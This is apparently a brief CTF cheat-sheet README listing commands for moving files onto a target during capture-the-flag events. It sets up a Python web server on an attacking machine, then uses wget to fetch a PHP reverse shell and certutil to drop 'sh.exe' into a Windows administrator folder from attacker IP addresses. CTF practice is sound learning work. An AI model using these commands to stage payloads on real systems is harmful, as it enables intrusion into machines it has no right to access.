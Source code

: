# CTF-cheat-sheet
Some useful commands I use when participating in CTF events.

File transfer using SimpleHTTPServer - a Pyhton webserver

To start the webserver on the attacking machine "sudo python -m SimpleHTTPServer 80"

To download the file on a Unix machine "wget http://10.10.10.10/php-reverse-shell.php"

To download the file on a Windows machine "certutil -urlcache -f httP://10.10.14.9/sh.exe C:\users\administrator\desktop\flags\sh.exe"

